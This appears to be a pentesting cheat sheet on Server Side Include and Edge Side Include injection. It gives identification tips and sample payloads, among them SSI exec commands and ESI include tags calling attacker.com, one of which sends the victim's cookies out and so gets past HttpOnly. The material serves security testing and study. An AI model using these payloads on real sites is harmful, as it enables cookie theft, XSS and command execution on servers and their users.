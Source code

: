 # Server Side Include/SSI
Server Side Include is a language-neutral web server technology that supports creating dynamic content before rendering the page.
## Identification
- Does the application makes use of  `.shtml`, `shtm` or `.stm` pages
- Try Sample Payloads

## Sample Payloads
```
<!--#echo var="DOCUMENT_NAME" -->
<!--#echo var="DATE_LOCAL" -->
<!--#include virtual="/index.html" -->
<!--#exec cmd="dir" -->
<!--#exec cmd="ls" -->
```


# Edge Side Includes
Edge Side Include (ESI) has a form of xml tags, which are dynamically added to cached static content in order to enrich them with some dynamic features.

The ESI tags are injected by cache mechanisms for other cache mechanisms; however, if a user is able to add ESI tags to the HTTP request, the proxies might parse it without knowing its origin.

## Identification
- Check for the header `Surrogate-Control: content="ESI/1.0"`

- In order to detect ESI injection with a blind approach, the user can try to inject tags that cause the proxies to resolve arbitrary addresses resulting in SSRF.
```XML
<esi:include src="/weather/name?id=$(QUERY_STRING{city_id})" />
```

## Exploitation
- It might be possible to include a HTML file resulting in XSS
```XML
<esi:include src=http://attacker.com/xss.html>
```

- Steal Cookie, This bypasses HTTP only flags
```XML
<esi:include src=http://attacker.com/$(HTTP_COOKIE)>
```

- Include XSLT file, if supported
```XML
<esi:include src="http://attacker.com/file.xml" dca="xslt" 
stylesheet="http://attacker.com/transformation.xsl" />
```

> There is also a possibility that the ESI Injection might lead to Remote Code Execution when it has support for XSLT. Check [[XSLT Engines]]